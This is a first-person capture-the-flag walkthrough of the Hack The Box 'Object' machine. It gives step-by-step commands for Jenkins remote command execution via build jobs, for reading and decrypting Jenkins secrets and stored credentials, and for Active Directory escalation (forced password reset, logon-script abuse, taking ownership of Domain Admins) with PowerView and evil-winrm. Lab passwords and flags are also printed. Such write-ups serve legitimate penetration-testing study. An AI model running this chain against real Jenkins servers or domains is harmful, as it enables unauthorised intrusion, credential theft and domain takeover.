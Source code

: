 I listed several ports (80,5985, and 8080)
```
Port 80 (http)
Port 5985 (winrm)
Port 8080 (http)
```


I decided to use the "whatweb" tool to gather information about the web services running on port 80 and port 8080

When I checked port 80, I discovered that it had a domain name, so I saved it in my hosts file.
```
❯ whatweb 10.10.11.132
http://10.10.11.132 [200 OK] Country[RESERVED][ZZ], Email[ideas@object.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.132], JQuery[2.1.3], Microsoft-IIS[10.0], Modernizr, Script, Title[Mega Engines]
```


Port 8080 redirected me to a login form, revealing that it was running the "jenkins" application
```
http://10.10.11.132:8080 [403 Forbidden] Cookies[JSESSIONID.6196fb37], Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.43.v20210629)], HttpOnly[JSESSIONID.6196fb37], IP[10.10.11.132], Jenkins[2.317], Jetty[9.4.43.v20210629], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]

http://10.10.11.132:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.6196fb37], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(9.4.43.v20210629)], HttpOnly[JSESSIONID.6196fb37], IP[10.10.11.132], Jenkins[2.317], Jetty[9.4.43.v20210629], PasswordField[j_password], Script[text/javascript], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

I proceeded to explore the Jenkins application, created an account, and logged in.

Within Jenkins, I found an option to create a New Item and inside these I have the option to  execute Windows batch Command, so I decided to try running "cmd /c whoami"
```
cmd /c whoami
```

I encountered an issue with the "Build in" button, so I decided to explore the "Build periodically" option, which worked similarly to a cron job.
So I made a "cron job" to execute my command
```
*****
```

After a  minute I see my job ready, and in the console output in the options panel I see the result of the command that I inject before "whoami"
```
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\myProject
[myProject] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins2507289751226796542.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\myProject>cmd /c whoami 
object\oliver
```

But there are a better way to do this, instead of the "Build periodically"  I can make a script in the configuration option "Trigger builds remotely"

```
Add new Token in my profile configuration -> myToken (api token)
create a security identificator in the "Trigger builds remotely" option -> myToken
Use the URL that the "Trigger builds remotely" option give me -> /job/myProject/build?token=myToken
Now make a request with curl
curl -s -X GET "http://kvzlx:11a52f38a1044f36bbb6b96d13c5343572@10.10.11.132:8080/job/myProject/build?token=myToken"
```

Now this is a way to execute remote command
But first I need to check the firewall rules on the victim machine to determine if i'm able to execute a reverse shell

```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

```

This shows me the firewall rule "BlockOutboundDC"  
Whit this firewall I can't establish a reverse shell. Therefore, I'll attempt to enumerate directories on the victim machine because jenkins has configs files, and there may be credentials or something useful
```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C "cat ../../users/admin_17207690984073220035/config.xml"

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

```

I have credentials, but I need to decryp them, so I'll use the "jenkins-credentials-decryptor" tool https://github.com/hoto/jenkins-credentials-decryptor
``` bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```

To use this tool, I need the "master.key" and "hudson.util.Secret" files.
I can find these files in the "secrets" directory on the victim machine
```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C "cat ../../secrets/master.key"

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

nvim master.key
cat master.key | tr -d '\n | sponge master.key'
```

and
```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C [convert]::ToBase64String(("cat ../../secrets/hudson.util.Secret" -Encoding byte)) 

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

echo "base64string" | base64 -d > hudson.util.Secret
```

I have obtained all the files to decrypt the credentials, now I can execute the script

``` bash
❯ ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]
```

I have obtained the credentials, and now I can use the tool "evil-winrm" to establish a connection to the victim's machine using these credentials

``` bash
evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'
```

Now that I'm inside the victim machine, I need to escalate privileges

I'll  use the tool sharphound.ps1 to enumerate vectors for privilege escalation https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1

``` bash
evil-winrm cd C:\ProgramData\bh
evil-winrm upload SharpHound.ps1
evil-winrm Import-Module .\SharpHound.ps1
evil-winrm Invoke-BloodHound -CollectionMethod ALL
evil-winrm download BloodHound.zip

# on my machine
neo4j console
bloodhound
```

Bloodhound reveals that the user Oliver can change the password of the user Smith (ForceChangePassword)

``` powershell
evil-winrm > $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
evil-winrm > upload powerview.ps1
evil-winrm > Import-Module .\powerview.ps1
evil-winrm > Set-DomainUserPassword -Identity smith -AccountPassword $SecPassword
```

Now I have access as the user smith using evil-winrm
``` bash
evil-winrm -i 10.10.11.132 -u 'smith' -p 'Password123!'
```

Looking at the bloodhound information, Now as the user Smith I have the privilege "GenericWrite" for the user Maria
This allows me to change attributes for the user Maria
Whit this privilege, I can abuse the logon script attribute

``` powershell
evil-winrm > Import-Module .\powerview.ps1
evil-winrm > echo 'dir C:\Users\Maria\Desktop\ > C:\ProgramData\bh\output.txt' > test.ps1
evil-winrm > Set-DomainObject -Identity maria -SET @{scriptpath='C:\ProgramData\bh\test.ps1'}
``` 

I'm viewing a excel file from the user Maria, leveraging the "GenericWrite/logon script" exploit
Now I'll copy that file to my directory and next download it

``` bash
echo 'copy C:\Users\Maria\Desktop\Engines.xls C:\ProgramData\bh\Engines.xls' > test.ps1

```

this excel file contains credentials for Maria

``` bash
evil-winrm -i 10.10.11.132 -u 'maria' -p 'W3llcr4ft3d_4cls'
```

Now I'm accessing as the user maria

Regarding the bloodhound information, Maria has the privilege "WriteOwner" on the  Domain Admins

``` powershell
evil-winrm > Import-Module .\powerview.ps1
evil-winrm > Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity Maria
evil-winrm > Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity Maria
evil-winrm > net group "Domain Admins" Maria /add /domain
``` 

Now  the user Maria is in the Admin group, and I can get the root flag and terminate the Object machine from Hack The Box


User flag > a12c80de6fd4225e3a33730c83673657
User root > ecef05e90ac301a571e9b471e5426f4a
